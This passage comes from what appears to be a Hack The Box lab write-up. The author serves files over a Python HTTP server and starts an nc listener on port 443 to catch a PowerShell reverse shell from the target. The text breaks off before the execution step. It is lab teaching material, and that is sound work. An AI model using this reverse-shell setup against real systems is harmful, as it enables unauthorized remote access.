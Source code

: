 I'll simply start the module, and now I'm serving the current directory
over http on the given port:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



This is why I created a new directory to serve out of. Anyone on the HTB
network can access this page now and the files it's serving. I don't
want my notes or other files available.

I can check that the server is working with my browser:

![](/img/1550156000195.png)

I can see those requests in the terminal as well:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.14.11 - - [14/Feb/2019 09:53:11] "GET / HTTP/1.1" 200 -
    10.10.14.11 - - [14/Feb/2019 09:53:11] code 404, message File not found
    10.10.14.11 - - [14/Feb/2019 09:53:11] "GET /favicon.ico HTTP/1.1" 404 -



#### Start nc

The PowerShell shell is going to connect back to me on port 443 (as I
specified when I added the function call to the end of the file). I'll
start a `nc` listener:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443



#### Execute

Now I'll use my telnet shell to execute:


